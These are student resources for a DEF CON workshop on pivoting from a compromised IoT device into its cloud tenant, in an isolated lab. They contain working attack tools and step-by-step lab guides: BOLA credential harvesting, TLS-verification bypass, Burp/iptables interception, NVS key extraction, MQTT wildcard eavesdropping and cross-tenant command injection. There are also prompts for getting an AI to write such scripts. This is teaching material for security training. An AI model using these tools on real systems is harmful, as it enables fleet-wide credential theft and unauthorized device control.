    common = argparse.ArgumentParser(add_help=False)
    common.add_argument("--host", required=True)
    common.add_argument("--port", type=int, default=8883)
    common.add_argument("--user", required=True)
    common.add_argument("--pass", dest="pw", required=True)
    common.add_argument("--ca")

    e = sub.add_parser("enum", parents=[common])
    e.add_argument("--base", default="devices")
    e.add_argument("--suffix", default="/telemetry")
    e.add_argument("--words")
    e.add_argument("--wait", type=float, default=12.0)
    e.set_defaults(func=cmd_enum)

    r = sub.add_parser("replay", parents=[common])
    r.add_argument("--topic", required=True)
    r.add_argument("--payload", required=True)
    r.add_argument("--count", type=int, default=1)
    r.add_argument("--interval", type=float, default=1.0)
    r.set_defaults(func=cmd_replay)

    a = ap.parse_args()
    a.func(a)


if __name__ == "__main__":
    main()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/tools/mqtt_recon.py`

```python
#!/usr/bin/env python3
"""
mqtt_recon.py  --  subscribe to a wildcard and map the broker (lab 05).

Uses credentials lifted from the cloud (lab 04). Because the lab ACL is over-broad, '#' dumps
the whole fleet. Usage:

  python mqtt_recon.py --host <broker> --user dev-1001 --pass p_aurora_88 --topic '#'
"""
import argparse
import ssl
import sys

import paho.mqtt.client as mqtt


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--host", required=True)
    ap.add_argument("--port", type=int, default=8883)
    ap.add_argument("--user", required=True)
    ap.add_argument("--pass", dest="pw", required=True)
    ap.add_argument("--topic", default="#")
    ap.add_argument("--ca", help="CA cert path (omit to skip verification)")
    a = ap.parse_args()

    seen = set()
    c = mqtt.Client(client_id="recon-" + a.user)
    c.username_pw_set(a.user, a.pw)
    if a.ca:
        c.tls_set(ca_certs=a.ca, cert_reqs=ssl.CERT_REQUIRED)
    else:
        c.tls_set(cert_reqs=ssl.CERT_NONE)
        c.tls_insecure_set(True)

    def on_connect(cl, u, f, rc):
        print(f"[+] connected rc={rc}; subscribing {a.topic}", file=sys.stderr)
        cl.subscribe(a.topic)

    def on_message(cl, u, msg):
        if msg.topic not in seen:
            seen.add(msg.topic)
            print(f"[topic] {msg.topic}")
        print(f"  {msg.topic} :: {msg.payload.decode(errors='replace')}")

    c.on_connect = on_connect
    c.on_message = on_message
    c.connect(a.host, a.port, keepalive=30)
    c.loop_forever()


if __name__ == "__main__":
    main()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/tools/rest_fuzz.py`

```python
#!/usr/bin/env python3
"""
rest_fuzz.py  --  enumerate the BOLA/IDOR-vulnerable device endpoint to harvest other devices'
identities, MQTT creds, and mTLS material (lab 04).

You start with ONE provisioned api_key (your own device's). The endpoint never checks that the
key owns the requested id, so iterating ids dumps the fleet.

  python rest_fuzz.py --base https://cloud:8443 --api-key ak_xxxx --wordlist ids.txt
  python rest_fuzz.py --base https://cloud:8443 --api-key ak_xxxx --from-list-endpoint
"""
import argparse
import json

import requests
import urllib3

urllib3.disable_warnings()  # lab self-signed / MITM


def fetch(base, api_key, did, ca):
    r = requests.get(f"{base}/v1/devices/{did}",
                     headers={"X-Api-Key": api_key},
                     verify=ca if ca else False, timeout=10)
    return r


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--base", required=True)
    ap.add_argument("--api-key", required=True)
    ap.add_argument("--wordlist", help="file of device-id guesses")
    ap.add_argument("--from-list-endpoint", action="store_true",
                    help="first hit /v1/devices to learn ids (excessive-data-exposure bug)")
    ap.add_argument("--ca")
    a = ap.parse_args()

    ids = []
    if a.from_list_endpoint:
        r = requests.get(f"{a.base}/v1/devices", headers={"X-Api-Key": a.api_key},
                         verify=a.ca if a.ca else False, timeout=10)
        ids = [d["device_id"] for d in r.json().get("devices", [])]
        print(f"[+] /v1/devices leaked {len(ids)} ids")
    if a.wordlist:
        ids += [w.strip() for w in open(a.wordlist) if w.strip()]

    loot = []
    for did in ids:
        r = fetch(a.base, a.api_key, did, a.ca)
        if r.status_code == 200:
            d = r.json()
            mq = d.get("mqtt", {})
            has_key = bool(d.get("mtls", {}).get("client_key_pem"))
            print(f"[HIT] {did}  mqtt={mq.get('username')}:{mq.get('password')}  mtls_key={has_key}")
            loot.append(d)
        else:
            print(f"[{r.status_code}] {did}")

    if loot:
        with open("loot.json", "w") as f:
            json.dump(loot, f, indent=2)
        print(f"\n[+] wrote {len(loot)} records to loot.json")


if __name__ == "__main__":
    main()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/zephyr-storage/make_nvs_blob.py`

```python
#!/usr/bin/env python3
"""
make_nvs_blob.py  --  build a simplified Zephyr-NVS partition image for the extraction demo.

This models Zephyr's NVS layout closely enough to teach the concept (data written from the
start of the sector; fixed-size Allocation Table Entries (ATEs) written from the END of the
sector backwards), without being a byte-exact clone of the kernel implementation. The parser
nvs_extract.py reverses it.

ATE (8 bytes, little-endian): id(2) offset(2) len(2) part(1) crc8(1)
"""
import struct
import sys

SECTOR = 4096


def crc8_ccitt(data, seed=0xFF):
    crc = seed
    for b in data:
        crc ^= b
        for _ in range(8):
            crc = ((crc << 1) ^ 0x07) & 0xFF if (crc & 0x80) else (crc << 1) & 0xFF
    return crc


# id -> bytes  (the credentials a pentester wants off a constrained device)
RECORDS = {
    0x0001: b"ACME-LAB-2G",                          # wifi ssid
    0x0002: b"dontstealmywifi",                        # wifi psk
    0x0003: b"acme-dev-9000",                         # dtls psk identity
    0x0004: bytes.fromhex("a3f1c0de4b8e2271aa55"),    # dtls pre-shared key (raw)
    0x0005: b"https://cloud:8443",                    # cloud url
    0x0006: b"flag{zephyr_nvs_dtls_psk_recovered}",   # device cloud token (the flag)
}


def build():
    sector = bytearray(b"\xff" * SECTOR)
    data_off = 0
    ate_off = SECTOR  # grows downward
    for rid, val in RECORDS.items():
        sector[data_off:data_off + len(val)] = val
        ate = struct.pack("<HHHB", rid, data_off, len(val), 0)
        ate += bytes([crc8_ccitt(ate)])
        ate_off -= 8
        sector[ate_off:ate_off + 8] = ate
        data_off += len(val)
    return bytes(sector)


if __name__ == "__main__":
    out = sys.argv[1] if len(sys.argv) > 1 else "nvs_partition.bin"
    open(out, "wb").write(build())
    print(f"[+] wrote {SECTOR}-byte NVS image to {out} ({len(RECORDS)} records)")
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/zephyr-storage/nvs_extract.py`

```python
#!/usr/bin/env python3
"""
nvs_extract.py  --  recover key/value records from a (simplified) Zephyr NVS partition image.

Walks the Allocation Table Entries (ATEs) backwards from the end of each 4 KiB sector, then
reads each record's data from the front of the sector -- the same mental model students apply
to a real flash dump's storage_partition.

  python nvs_extract.py nvs_partition.bin
"""
import struct
import sys

SECTOR = 4096

KNOWN = {
    0x0001: "wifi_ssid", 0x0002: "wifi_psk", 0x0003: "dtls_psk_identity",
    0x0004: "dtls_psk", 0x0005: "cloud_url", 0x0006: "device_token",
}


def crc8_ccitt(data, seed=0xFF):
    crc = seed
    for b in data:
        crc ^= b
        for _ in range(8):
            crc = ((crc << 1) ^ 0x07) & 0xFF if (crc & 0x80) else (crc << 1) & 0xFF
    return crc


def parse_sector(sector):
    found = {}
    ate_off = SECTOR - 8
    while ate_off >= 0:
        ate = sector[ate_off:ate_off + 8]
        if ate == b"\xff" * 8:                 # empty slot
            ate_off -= 8
            continue
        rid, off, length, part = struct.unpack("<HHHB", ate[:7])
        crc = ate[7]
        if crc8_ccitt(ate[:7]) != crc:
            ate_off -= 8
            continue
        if 0 <= off and off + length <= SECTOR:
            found.setdefault(rid, sector[off:off + length])  # first (newest) wins
        ate_off -= 8
    return found


def main():
    if len(sys.argv) < 2:
        print(__doc__)
        sys.exit(1)
    blob = open(sys.argv[1], "rb").read()
    print(f"[+] {len(blob)} bytes, {len(blob)//SECTOR or 1} sector(s)\n")
    for s in range(0, max(len(blob), 1), SECTOR):
        recs = parse_sector(blob[s:s + SECTOR])
        for rid, val in sorted(recs.items()):
            name = KNOWN.get(rid, f"id_{rid:#06x}")
            try:
                shown = val.decode()
            except UnicodeDecodeError:
                shown = val.hex()
            print(f"  {name:18s} = {shown}")


if __name__ == "__main__":
    main()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/enhanced-abstract.md`

```markdown
# Enhanced Abstract — Attacking Cloud APIs from the IoT Edge

This four-hour, hands-on workshop teaches intermediate-to-expert practitioners how to pivot from a single compromised IoT device into the cloud tenant it reports to. Rather than covering initial device access, we assume an existing foothold (via UART, JTAG, or firmware extraction) and focus on what happens next: recovering credentials from device storage, abusing cloud REST and MQTT interfaces, and demonstrating controlled lateral movement within an isolated lab environment.

Students work through a self-contained lab stack (Docker Compose on a pre-built Ubuntu guest VM) that simulates a realistic IoT product: a mock cloud REST API, an MQTT broker, a simulated device with an assumed-RCE foothold, and a fleet of tenant devices publishing live telemetry. The attack chain mirrors how a real engagement unfolds across six progressive labs:

1. **Firmware recon** — Probe a firmware image for credentials and cloud endpoints.
2. **Traffic interception** — Intercept and analyze device-to-cloud REST traffic using Burp Suite CE.
3. **Identity extraction** — Recover device credentials from on-device storage, including both secure enclave and RTOS flash partitions.
4. **REST API abuse** — Exploit authorization flaws to enumerate and harvest credentials across the device fleet.
5. **MQTT fuzzing** — Use stolen credentials to explore the broker's topic namespace and surface cross-tenant data.
6. **Lateral movement** — Leverage harvested access to send commands to a target device in a separate tenant.

A 25–30 minute concept briefing precedes the labs, covering IoT architecture layers, HTTP vs. MQTT (and what that means for Burp Suite CE), CoAP/DTLS, device authentication models (mTLS, pre-shared keys, SigV4, OAuth), the cloud shared-responsibility model, and the OWASP API Security Top 10 vulnerabilities most commonly found in IoT-to-cloud deployments. Defensive counterpoints are addressed so attendees leave able to advise as well as attack.

Students work in groups of 2–3 and are expected to execute every exploit themselves. Minimal slide time is used; the majority of the four hours is spent at the keyboard. Each lab produces a capture-the-flag style flag, giving immediate feedback on successful exploitation. All activity is confined to the isolated lab tenant — no internet access is required or used.

This workshop builds on the instructor's DEF CON 33 session ("Pen-testing Cloud REST APIs") and adds the IoT device foothold as the starting point, covering firmware extraction, Zephyr NVS credential recovery, MQTT ACL abuse, and device-to-device lateral movement — content not present in the prior year.

**Takeaway:** attendees leave with a repeatable, tool-backed methodology compromised edge device to cloud tenant, and a clear understanding of the customer-owned misconfigurations (over-broad ACLs, BOLA, shared/long-lived credentials, `verify=False` TLS) that make the chain possible.
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/00-setup.md`

````markdown
# Lab 00 — Setup & Orientation

> **Scope & rules.** Everything here is an intentionally vulnerable, self-contained range. Run it
> on an isolated/host-only network. Do not point any tool at anything outside this lab. See the
> root `README.md` "Authorization & scope" section.

## What's running

| Service | Address (in-lab) | Role |
|---|---|---|
| `cloud` | `https://cloud:8443` (REST), `https://cloud:9443` (mTLS) | Mock IoT cloud — provisioning, device API (BOLA), mTLS data plane |
| `broker` | `cloud:8883` (TLS), `1883` (anon) | Mosquitto with weak ACLs |
| `device` | `http://device:7000` | Simulated device + debug agent (your assumed RCE foothold) |
| `instructor-pod` | (MQTT) | The lateral-movement target |
| `fleet` | (MQTT) | Other tenants' devices publishing telemetry |

## Bring it up

> Everything below runs **inside your pre-built Ubuntu Desktop guest VM** — the Docker stack,
> Burp CE, and the Python tools are all pre-installed.

```bash
bash scripts/check_env.sh          # verify prerequisites
docker compose up -d               # start the range (images are pre-built in the OVA)
docker compose logs -f cloud device
```

Two ways to run the attacker tooling, both from within the guest:

* **Directly in the guest:** run the `tools/*.py` scripts directly and use **Burp Community
  Edition** (pre-installed at `/opt/BurpSuiteCommunity`) here too. The hostnames `cloud`,
  `broker`, and `device` are pre-configured in `/etc/hosts` as aliases for `127.0.0.1`, so
  TLS certificate validation works correctly with the same hostnames as the containerised path.
* **Containerized (optional fallback):** `docker compose --profile attacker up -d attacker` then
  `docker compose exec attacker bash`. Inside, hostnames `cloud`/`broker`/`device` resolve and
  `mosquitto_*`, `curl`, and the `/tools` + `/zephyr` scripts are present. Burp may not be available inside the container.

## The story you're about to follow

You start with a foothold on one device (the `device` debug agent stands in for an RCE you already
have). From there: read its firmware/config, intercept its cloud traffic, defeat its TLS checks,
steal its identity, abuse the cloud REST API to harvest the **whole fleet's** credentials, then use
those on MQTT to reach and command the **instructor's** device. Each lab drops one or more `flag{…}`.

Proceed to [01-firmware-recon.md](01-firmware-recon.md).
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/01-firmware-recon.md`

````markdown
# Lab 01 — Firmware Recon (the easy win)

**Goal:** recover hardcoded secrets and cloud endpoints from a firmware image, the way you would
after pulling a blob from a vendor update server (no device RCE required).

## Build / obtain the image

```bash
make firmware            # writes firmware/firmware.bin
# or: bash firmware/build_firmware.sh firmware/firmware.bin
```

This mirrors a real device image: a vendor header, a **SquashFS** root filesystem, and a trailing
config blob.

## Probe it

```bash
strings -n 6 firmware/firmware.bin | grep -iE 'token|bootstrap|http|pass|user'
binwalk firmware/firmware.bin            # identify the squashfs offset
binwalk -e firmware/firmware.bin         # carve + extract the rootfs
```

In the extracted rootfs, read:

* `etc/device.conf` — the provisioning URL, MQTT host, a **shared factory `BOOTSTRAP_TOKEN`**, and
  a leftover debug account.
* `etc/hosts` — how the device resolves `cloud` / `broker`.
* `etc/legacy_key.pem` — a decoy key (contrast with Lab 03: the *real* mTLS key isn't in the FS).

## Use what you found

The `BOOTSTRAP_TOKEN` is all you need to provision as a brand-new device and get a working identity:

```bash
curl -sk -X POST https://cloud:8443/v1/provision -H 'Content-Type: application/json' \
  -d '{"bootstrap_token":"<TOKEN-FROM-FIRMWARE>","serial":"ACME-STU-9000"}' | tee my_identity.json
```

You now hold an `api_key` + MQTT creds + an mTLS cert/key. Keep `my_identity.json`.

**Flag:** the firmware-recovered token doubles as `flag{...}` — see the trailing config blob and
`etc/device.conf`. Proceed to [02-burp-interception.md](02-burp-interception.md).
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/02-burp-interception.md`

````markdown
# Lab 02 — Intercepting the Device with Burp

**Goal:** get the device's cloud traffic into Burp, defeat its certificate checks via your
foothold, and watch the provisioning + credential calls — until mTLS stops you.

## How interception works here

The device talks to `cloud` over HTTPS. To see it, you redirect that hostname to a Burp listener
and let Burp forward upstream to the real cloud. You are *not* ARP/MITM-ing the room — this models
a malicious-AP / DNS-redirect position, which is far more realistic for IoT than expecting the
device to honor HTTP proxy settings.

> **Burp Community Edition is all you need here.** We only use the **Proxy** (and optionally
> **Repeater** to re-send a captured request). CE keeps a temporary project; that's fine for
> a single session.

Burp runs in the **same Ubuntu guest** as the Docker stack, so the device reaches it via the
Docker host gateway:

1. Launch Burp via authbind so it can bind to the privileged port 443 (Linux blocks ports below
   1024 for normal users):
   ```bash
   authbind --deep /opt/BurpSuiteCommunity/BurpSuite &
   ```
2. In Burp (CE): **Proxy → Proxy settings → add a listener** on `0.0.0.0:443`, **Request
   handling → Redirect to host** `127.0.0.1` port `8443` (the cloud container's published port),
   and tick **Support invisible proxying (transparent)**.
3. Point the device's `cloud` name at Burp. In `docker-compose.yml`, uncomment `extra_hosts`
   under `device` and set it to the special value `cloud:host-gateway` (Docker maps that to the
   guest, where Burp is listening on `:443`). Then `docker compose up -d device`.
4. Add an iptables rule to redirect the device's port 8443 traffic to Burp on port 443. The
   device connects to `cloud:8443`, but with `extra_hosts` that resolves to the host gateway —
   without this rule the connection goes directly to the cloud container's published port,
   bypassing Burp entirely:
   ```bash
   BRIDGE=br-$(docker network ls --filter name=build-scripts_default -q | cut -c1-12)
   sudo iptables -t nat -I PREROUTING -i "$BRIDGE" -p tcp --dport 8443 -j REDIRECT --to-port 443
   ```
   This is necessary for the lab environment. In a real-world device it is likely to use port 443
   instead of 8443. The goal is to redirect device traffic to our Burp instance (whether via DNS,
   firewall redirects, or packet manipulation).

> **When you finish this lab**, remove the rule so later labs can reach cloud directly:
> ```bash
> BRIDGE=br-$(docker network ls --filter name=build-scripts_default -q | cut -c1-12)
> sudo iptables -t nat -D PREROUTING -i "$BRIDGE" -p tcp --dport 8443 -j REDIRECT --to-port 443
> ```
> The rule also does not survive a VM reboot.

## Part 1 — verification on (Burp is blind)

With the device in its default state (`verify_tls: true`), watch `docker compose logs -f device`:
you'll see TLS verification failures and **nothing in Burp's history**. The device validates the
cloud cert against its baked-in CA and refuses your Burp cert. This is the point: a device that
checks its CA can't be trivially intercepted.

If the docker logs for device do not show the TLS verification failures you may need to force
restart the device and wait a few minutes:
`docker compose up -d --force-recreate device`

## Part 2 — use your foothold to break verification

You have a shell on the device (the debug agent). Push your rogue CA / disable verification:

```bash
python3 tools/foothold.py --agent http://device:7000 push-ca
```

This flips the device to `verify_tls: false` (models the very common "device skips cert/subject
validation / `verify=False`" bug). Now Burp's history fills with:

* `POST /v1/provision` → the JIT identity response (api_key, **MQTT username/password**, mTLS
  cert/key, topic prefix).

That credential bundle is the prize. Copy the `api_key` and MQTT creds out of Burp.

## Part 3 — mTLS tapped from the device itself

Trigger the device's enclave to make an mTLS call to the cloud data plane:

```bash
python3 tools/foothold.py --agent http://device:7000 enclave-run
```

This call **succeeds** and returns the plaintext response. This works because you ran attacker
code *on the device itself* that used the enclave (which holds the client cert) to make the call
and teed the plaintext back — the "run our code on the device that uses the enclave" attack.

## Part 4 — prove Burp cannot follow into mTLS

Burp's existing listener on port 443 redirects to `127.0.0.1:8443` (the server-TLS endpoint).
For mTLS traffic you need a **second listener** pointing at the correct port:

In Burp: **Proxy → Proxy settings → add a listener** on `0.0.0.0:9444`, **Request handling →
Redirect to host** `127.0.0.1` port `9443`, and tick **Support invisible proxying (transparent)**.

Then add an iptables rule to redirect port 9443 to that listener:

```bash
BRIDGE=br-$(docker network ls --filter name=build-scripts_default -q | cut -c1-12)
sudo iptables -t nat -I PREROUTING -i "$BRIDGE" -p tcp --dport 9443 -j REDIRECT --to-port 9444
```

Now trigger the enclave call again:

```bash
python3 tools/foothold.py --agent http://device:7000 enclave-run
```

The call **fails** — but check Burp's proxy history first. Because `verify_tls` is already False
(set in Part 2), the enclave accepts Burp's cert and the HTTP request **does** appear in Burp's
history. However, when Burp tries to forward the request upstream to `cloud:9443`, the cloud
demands a client certificate that Burp cannot provide — the upstream connection fails and Burp
returns an error to the enclave.

**server-TLS** (port 8443) can be MITM'd once cert verification is defeated.
**Mutual-TLS** (port 9443) requires the attacker to also hold the client key — a plain MITM is
not enough.

Remove the 9443 redirect when done:

```bash
BRIDGE=br-$(docker network ls --filter name=build-scripts_default -q | cut -c1-12)
sudo iptables -t nat -D PREROUTING -i "$BRIDGE" -p tcp --dport 9443 -j REDIRECT --to-port 9444
```

> So how do we extract the client key from the enclave? That's Lab 03.

___

> **When you finish this lab**, remove the rule so later labs can reach cloud directly:
> ```bash
> BRIDGE=br-$(docker network ls --filter name=build-scripts_default -q | cut -c1-12)
> sudo iptables -t nat -D PREROUTING -i "$BRIDGE" -p tcp --dport 8443 -j REDIRECT --to-port 443
> ```
> The rule also does not survive a VM reboot.

___

Proceed to [03-key-extraction.md](03-key-extraction.md).
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/03-key-extraction.md`

````markdown
# Lab 03 — Getting the mTLS Identity

**Goal:** obtain a working client identity for the mTLS data plane when the private key is *not*
sitting in the filesystem.

The device did an X.509 handshake with a key held in a **secure enclave**, so a filesystem read
won't hand you the key (try it — the enclave dir is outside the agent's browse scope):

```bash
python3 tools/foothold.py --agent http://device:7000 ls /app          # config, CA bundle...
python3 tools/foothold.py --agent http://device:7000 cat /app/config.yaml
python3 tools/foothold.py --agent http://device:7000 ls /enclave      # blocked: isolated
```

## Option A — drive the enclave from your foothold

Since you have code execution on the device, run code *there* that uses the enclave to make the
mTLS call and tee the plaintext back to you (the "run our code on the device" path):

```bash
python3 tools/foothold.py --agent http://device:7000 enclave-run
# -> {"ok": true, "plaintext": "...telemetry... flag{...}"}
```

This is the realistic answer when the key never leaves secure hardware: you don't exfiltrate the
key, you borrow the *capability*.

## Option B — devices that DO keep the key in flash (Zephyr)

Many constrained devices store their identity/PSK in raw flash (Zephyr **NVS / settings**), not a
secure element. Pull the storage partition through your foothold and parse it:

```bash
python3 tools/foothold.py --agent http://device:7000 dump-nvs nvs_partition.bin
python3 zephyr-storage/nvs_extract.py nvs_partition.bin
```

You'll recover the Wi-Fi PSK, the **DTLS pre-shared key**, the cloud URL, and a device token —
exactly the material that lets you authenticate from your own box. (This is the short Zephyr
extraction demo; it maps directly to lecture §9.)


**Flags:** `flag{zephyr_nvs_dtls_psk_recovered}` (NVS) and the telemetry `note` flag via the
enclave path. Proceed to [04-rest-fuzzing.md](04-rest-fuzzing.md).
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/04-rest-fuzzing.md`

````markdown
# Lab 04 — Fuzzing the Cloud REST API for Other Identities

**Goal:** turn your single device identity into the whole fleet's credentials by abusing broken
object-level authorization (BOLA/IDOR).

You have one `api_key` (from Lab 01 provisioning or Lab 02 interception). The device-lookup
endpoint checks only that you present *some* valid key — never that the key owns the requested
device. So you can read any device id.

## Discover ids, then harvest

```bash
# Pull your api_key out of the identity you captured earlier
API_KEY=$(python3 -c 'import json;print(json.load(open("my_identity.json"))["api_key"])')

# The roster endpoint over-shares (excessive data exposure):
#	We guess this API endpoint based on previous Burp capture history
curl -sk https://cloud:8443/v1/devices -H "X-Api-Key: $API_KEY" | jq .

# Harvest every device's MQTT creds + mTLS material in one sweep:
python3 tools/rest_fuzz.py --base https://cloud:8443 --api-key "$API_KEY" --from-list-endpoint
cat loot.json
```

`rest_fuzz.py` also takes `--wordlist ids.txt` if you'd rather brute device ids than use the
roster endpoint (try guessing `dev-1001-aurora`, `instructor-pod`, etc.).

Another option would be Burp Suite - Intruder if you think the device ids are predicatable

For each device you now have: MQTT `username`/`password` **and** its mTLS `client_key_pem`. That
is everything you need to impersonate any device on the broker (Lab 05) and on the mTLS API.

## Extract certs and keys from loot.json

`loot.json` contains the PEM material as JSON strings. Extract each device's cert and key to
files so `curl` and other tools can use them:

```bash
python3 - <<'EOF'
import json, pathlib
loot = json.load(open("loot.json"))
for dev in loot:
    did = dev["device_id"]
    cert = dev.get("mtls", {}).get("client_cert_pem", "")
    key  = dev.get("mtls", {}).get("client_key_pem", "")
    if cert:
        pathlib.Path(f"certs/client-{did}.crt").write_text(cert)
    if key:
        pathlib.Path(f"certs/client-{did}.key").write_text(key)
        pathlib.Path(f"certs/client-{did}.key").chmod(0o600)
print("wrote certs/ for:", [d["device_id"] for d in loot])
EOF
```

## Use the recovered mTLS identity

Call the mTLS data plane directly with a harvested cert/key pair:

```bash
curl -sk --cert "$PWD/certs/client-instructor-pod.crt" \
        --key  "$PWD/certs/client-instructor-pod.key" \
  https://cloud:9443/v1/devices/instructor-pod/telemetry
```

### Optional — complete the mTLS MITM in Burp

In Burp: **Settings → TLS → Client TLS certificates → Add** — set the host to `cloud`, paste
the `client_cert_pem` and `client_key_pem` from `loot.json`. Now try using your previous captured
enclave run in your Burp Proxy history to get a mTLS handshake and response.


**Flags:** reading other tenants' telemetry via their leaked mTLS identity yields the
`flag{bola_telemetry_*}` / `flag{cross_tenant_*}` notes. Proceed to [05-mqtt-fuzzing.md](05-mqtt-fuzzing.md).
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/05-mqtt-fuzzing.md`

````markdown
# Lab 05 — Fuzzing MQTT for Other Clients' Data

**Goal:** use a harvested MQTT credential to map the broker and read data you shouldn't, exploiting over-broad topic ACLs.

Pick any credential from `loot.json` (e.g. `dev-1001` / `p_aurora_88`). The broker's ACL lets any
authenticated user read the whole `devices/#` tree — so a wildcard subscribe dumps the fleet.

## Recon: subscribe to everything

### `#` — all application topics

Note that since the attacker controls the Python code the code can choose to ignore CA validation
of the remote (server TLS) of the MQTT broker.

```bash
python3 tools/mqtt_recon.py --host broker --port 8883 \
  --user dev-1001 --pass p_aurora_88 --topic '#'
```

Watch the topic map build: `devices/<id>/telemetry`, `.../cmd`, `.../evt`, and `fleet/announce`.
Other tenants' telemetry (cygnus, borealis) is readable even though it isn't yours.

Equivalent with stock tooling:

```bash
# Need the CA for TLS mode with mosquitto_sub CLI tools

openssl s_client -connect broker:8883 -showcerts </dev/null 2>/dev/null \
  | awk 'BEGIN{c=0} /BEGIN CERT/{c++;b=""} {b=b$0"\n"} /END CERT/{cert[c]=b} END{print cert[c]}' \
  > certs/ca.crt
```

```bash
mosquitto_sub -h broker -p 8883 --cafile certs/ca.crt --insecure \
  -u dev-1001 -P p_aurora_88 -t '#' -v
```

### `$SYS/#` — broker metadata (a separate tree)

`$SYS` is a reserved Mosquitto topic hierarchy that publishes broker internals: connected client
counts, message rates, uptime, and active subscriptions. It is **not** matched by `#` — you must
subscribe to it explicitly. When the broker doesn't ACL-restrict it, every authenticated client
can read it.

```bash
mosquitto_sub -h broker -p 8883 --cafile certs/ca.crt --insecure \
  -u dev-1001 -P p_aurora_88 -t '$SYS/#' -v
```

Interesting subtopics to note:

| Topic | What it leaks |
|-------|---------------|
| `$SYS/broker/clients/connected` | live client count — reveals fleet size |
| `$SYS/broker/clients/total` | all-time connection count |
| `$SYS/broker/subscriptions/count` | number of active subscriptions |
| `$SYS/broker/messages/sent` | total messages brokered |
| `$SYS/broker/version` | Mosquitto version (fingerprinting) |

To subscribe to both trees in one shot (as you would in a real Python client):

```python
client.subscribe([("#", 0), ("$SYS/#", 0)])
```

On this lab broker `$SYS` is intentionally left open — same misconfiguration seen on real
deployments where operators lock down device topics but forget the stats tree.

## Fuzz topic names

If the ACL were tighter you'd guess ids/segments instead of `#`:

```bash
python3 tools/mqtt_fuzz.py enum --host broker --port 8883 \
  --user dev-1001 --pass p_aurora_88 --base devices --suffix /telemetry
```

The fleet devices periodically embed a `maint_note` in telemetry — that's your reward for reaching
their topics.

**Flags:** `flag{mqtt_recon_*}`, `flag{mqtt_wildcard_*}`, `flag{cross_tenant_mqtt_*}`, and the
passive `flag{passive_listener_fleet_announce}` on `fleet/announce`. Next: `06-lateral-movement.md`.

## Want to write your own client?

If the provided tools don't fit your exact need, use an AI coding assistant to generate a
throwaway Python script. See `tools/mqtt_recon.py` for how TLS context setup, auth, and argument
parsing are done in this lab's style.

Starter prompts:

**Subscribe and print all topics (recon):**
> "Write a Python script using paho-mqtt that connects to an MQTT broker over TLS on port 8883,
> authenticates with a username and password, subscribes to the wildcard topic `#`, and prints
> each incoming message's topic and payload. Accept broker host, port, username, password, and CA
> cert path as CLI arguments. By default, ignore server TLS (CA) errors."

**Enumerate topic names from a wordlist:**
> "Write a Python script using paho-mqtt that takes a list of topic strings from a file, subscribes to each one for 2 seconds, records any messages received, and prints a summary of which topics returned data. Connect over TLS ignoring any CA cert errors and use username/password auth."

Proceed to [06-lateral-movement.md](06-lateral-movement.md).
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/labguide/06-lateral-movement.md`

````markdown
# Lab 06 — Lateral Movement: Command the Instructor's Device

**Goal:** go from "I can read topics" to "I can make another device act" by publishing into a
command topic — the IoT equivalent of lateral movement.

The broker ACL lets any authenticated user **write** to `devices/+/cmd`. From Lab 05 recon you know the instructor pod's topic prefix is `devices/instructor-pod`. Its command verb (from observing your own device's command handling) is `PLAYSOUND`.

## Replay a command to the target

```bash
# In one terminal, watch the target's event topic:
mosquitto_sub -h broker -p 8883 --cafile certs/ca.crt --insecure \
  -u dev-1001 -P p_aurora_88 -t 'devices/instructor-pod/evt' -v

# In another, publish the command:
python3 tools/mqtt_fuzz.py replay --host broker --port 8883 \
  --user dev-1001 --pass p_aurora_88 \
  --topic devices/instructor-pod/cmd --payload PLAYSOUND
```

The instructor pod receives your command and emits a chime event carrying
`flag{playsound_replay_success_4d2}`.

## Continuous replay / catching the flag broadcast

The pod also heartbeats onto `fleet/announce`. Leaving a subscriber running there captures
`flag{passive_listener_fleet_announce}` without sending anything — a reminder that *listening* is
often enough. See if you can receive the messages by crafting a command or script.

## Want to write your own publisher?

If you need a custom publish pattern, generate one with an AI coding assistant. See
`tools/mqtt_fuzz.py` for the lab's existing style.

Starter prompt:

**Publish a single command payload:**
> "Write a Python script using paho-mqtt that connects to an MQTT broker over TLS, authenticates
> with a username and password, publishes a given payload string to a given topic once, then
> disconnects. Accept broker host, port, username, password, CA cert path, topic, and payload as
> CLI arguments."

## Wrap-up

You chained: firmware recon → interception → TLS-verify bypass → identity theft (enclave/NVS) →
REST BOLA fleet harvest → MQTT wildcard read → cross-device command. Every step exploited a
**customer-owned** misconfiguration (shared token, `verify=False`, BOLA, wildcard ACLs), not the
cloud provider's infrastructure — the through-line of the whole workshop.
````

